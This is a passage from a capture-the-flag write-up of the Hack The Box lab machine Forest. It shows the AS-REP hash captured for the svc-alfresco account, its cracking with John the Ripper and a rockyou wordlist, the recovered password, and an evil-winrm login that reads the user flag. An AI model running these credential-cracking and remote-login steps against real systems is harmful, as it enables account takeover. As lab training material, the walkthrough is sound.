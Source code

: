 We found a hash for the user `svc-alfresco`.
```shell
$krb5asrep$svc-alfresco@HTB.LOCAL:6af93fd6240b0fefd6d873241b5d352c$6832d233ac0a0c1368ec9200b2444865ade034b1429891463c299c7867711a22f29685d2db22168302a9c2452db13faf64a81bbd6817822c4416416d3abdcc2a0d34815ba984ce8402f00011a993d7a4945ff8c9a2ebbc7bfa660c5197f571788f60702edd25cd4613ce79c0ca60c1ad31715d485a3b31b11641cc29e0be312455f698203f0e679d0c21cd900b436bfceaf1a21629408c0e0e104b7ab2e6d2bcfe0bc613fd118fce806f7985ea778f08c0e0060b6c618b83b78cced44f989bcfa0d3af6e191b324297b5701114b4c67266aaa56ea9a825a61a73b3b75d89d18d8c70b0ddc115
```

Since we had `-format john` option for `GetNPUsers.py`, we can crack the hash with `John the Ripper`.
```shell
root@kali:~# cat hash.txt 
$krb5asrep$svc-alfresco@HTB.LOCAL:6af93fd6240b0fefd6d873241b5d352c$6832d233ac0a0c1368ec9200b2444865ade034b1429891463c299c7867711a22f29685d2db22168302a9c2452db13faf64a81bbd6817822c4416416d3abdcc2a0d34815ba984ce8402f00011a993d7a4945ff8c9a2ebbc7bfa660c5197f571788f60702edd25cd4613ce79c0ca60c1ad31715d485a3b31b11641cc29e0be312455f698203f0e679d0c21cd900b436bfceaf1a21629408c0e0e104b7ab2e6d2bcfe0bc613fd118fce806f7985ea778f08c0e0060b6c618b83b78cced44f989bcfa0d3af6e191b324297b5701114b4c67266aaa56ea9a825a61a73b3b75d89d18d8c70b0ddc115
```
```shell
root@kali:~# john --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)
1g 0:00:00:02 DONE (2020-06-08 18:35) 0.3521g/s 1438Kp/s 1438Kc/s 1438KC/s s521379846..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now we have an user credential for `svc-alfresco`.
```shell
svc-alfresco:s3rvice
```

As port 5985 is open for `WinRM`, we can use [evil-WinRM](https://github.com/Hackplayers/evil-winrm) to login as the user `svc-alfresco`.<br>
`user.txt` is in the directory `C:\Users\svc-alfresco\Desktop`.
```shell
root@kali:~/evil-winrm# ./evil-winrm.rb -i 10.10.10.161 -u svc-alfresco -p s3rvice

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> type C:\Users\svc-alfresco\Desktop\user.txt
e5e4e47ae7022664cda6eb013fb0d9ed
```

## 3. Getting Root
